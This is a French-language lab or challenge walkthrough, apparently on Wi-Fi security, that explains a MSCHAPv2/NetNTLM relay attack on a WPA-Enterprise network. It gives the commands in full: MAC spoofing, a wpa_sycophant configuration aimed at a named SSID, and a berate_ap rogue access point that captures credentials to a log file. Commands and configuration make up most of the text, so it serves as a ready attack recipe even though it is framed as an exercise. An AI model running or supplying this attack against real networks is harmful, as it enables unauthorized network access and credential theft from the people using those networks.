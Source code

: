 21. Quel est le nom d'utilisateur et le mot de passe obtenu via cette attaque ?

# WPA Enterprise (MGT) - Attaque Relais du challenge NETNTLM

Pour réaliser cette attaque, nous devons effectuer une attaque par relais. MSCHAPv2 fonctionne de la même manière que NetNTLM, nous pouvons donc réutiliser le challenge du l'AP en le transmettant au client légitime et réutiliser sa réponse pour accéder à l'AP réel. Pour cela, nous utiliserons « wpa_sycophant ».

Tout d'abord, nous configurons le nom de l'AP auquel nous voulons nous connecter dans « wpa_sycophant » et nous ajoutons le MAC du faux AP que nous allons créer, donc si on le crée avec wlan1, alors il faut mettre l'@MAC de cette interface dans « bssid_blacklist ». L'objectif étant de ne pas mener l'attaque sur notre RogueAP. Mais d'abord, il faut préparer la conf :

```
systemctl stop network-manager
airmon-ng stop wlan1mon
ip link set wlan1 down
macchanger -m F0:9F:C2:00:00:00 wlan1
ip link set wlan1 up
```

Ensuite : 
```
echo '
network={
  ssid="wifi-regional-tablets"
  ## SSID du PA sur lequel on veut relayer l'authentification et ainsi s'y connecter. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Ne pas modifier
  identity=""
  anonymous_identity=""
  password=""
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  ## Ici on ne veut pas se connecter à nous-même (RogueAP avec SSID identique que le légitime),
  ## donc ajouter votre BSSID de votre RogueAP ici (wlan1) :
  bssid_blacklist=F0:9F:C2:00:00:00
}
' > ~/tools/wpa_sycophant/wpa_sycophant_example.conf
```
Pour mettre en oeuvre notre RogueAP nous utilisons « berate_ap », très similaire à « eaphammer » dans les sections précédentes.

```
#Shell 1
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo wifi-regional-tablets
```
Assurez-vous de bien compléter le setup notamment avec les informations de certificat.

